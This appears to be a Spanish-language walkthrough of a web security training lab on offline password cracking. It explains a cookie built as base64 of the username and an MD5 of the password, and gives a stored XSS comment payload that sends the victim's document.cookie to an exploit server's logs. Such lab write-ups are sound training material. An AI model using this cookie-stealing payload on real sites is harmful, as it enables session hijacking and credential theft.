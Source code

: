 #### Lab11: Offline password cracking

Igual que en el laboratorio anterior tenemos las credenciales `wiener:peter` y su cookie **stayed-loged-in** tiene el formato: `base64(user:MD5(password))`. En este caso no nos dara resultados hacer fuerza bruta con la lista de contraseñas que nos dieron.

En este caso nos indican que la caja de comentarios es vulnerable a XSS y nos dan un servidor web donde podemos ver los logs. Entraremos a cualquier post para agregar un comentario.

![auth11.1.png](auth11.1.png)

```javascript
<script>document.location='https://exploit-acf01f691f1fa436c0cd709e01bf000e.web-security-academy.net/exploit/'+document.cookie</script>
```

Usaremos la dirección del servidor que nos dieron. El código anterior lo que hace será redireccionar a la página del servidor pero a la ruta `/exploit/(cookies)` donde envia las cookies de la página que queremos explotar, no es necesario que exista esa ruta pues solo queremos ver el mensaje en los logs.

![auth11.2.png](auth11.2.png)
